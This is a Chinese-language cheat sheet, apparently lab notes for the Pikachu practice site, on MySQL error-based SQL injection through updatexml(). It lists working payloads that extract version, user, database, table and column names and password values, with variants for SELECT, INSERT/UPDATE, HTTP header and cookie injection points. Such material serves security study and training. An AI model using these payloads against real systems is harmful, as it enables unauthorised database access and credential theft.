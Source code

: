 <a name="c2POF"></a>
### updatexml报错实战
<a name="NIjH4"></a>
#### select、delete语句注入
```
#1 爆数据库版本信息
k' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #
#2 爆数据库当前用户
k' and  updatexml(1,concat(0x7e,(SELECT user()),0x7e),1) #
#3 爆数据库
k' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #
#4 爆表名
## 反馈回的错误表示只能显示一行，所以采用limit来一行一行显示
k'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0) #
#5 爆字段
k' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 2,1)),0) #
#6 爆字段内容
k' and  updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) #
```
<a name="uPPCX"></a>
#### insert、update、注入
增、改同样可以用来进行报错注入，只是需要前后分别用or语句连接，使语句完整，一般需要抓包用bp改参数
```sql
# 原语句
insert into xxx id values ('k');
# 报错注入语句
k' or updatexml(1,concat(0x7e,(命令)),0) or'
# 组合后语句
insert into xxx id values ('k' or updatexml(1,concat(0x7e,(命令)),0) or'');
```
<a name="QT1YR"></a>
#### head和cookie注入
如果代码调用了head或cookie中的信息拿到数据库进行拼接，也可以用报错注入尝试<br />同样是先用单引号找到注入点，在进行注入
```
# http head头注入，假如是对浏览器类型的检测
Mozilla ' or updatexml(1,concat(0x7e,database ()),0) or '
# cookie注入，假如原cookie为 ant[uname]=admin
ant[uname]=admin' and updatexml (1,concat(0x7e,database()),0) #
```
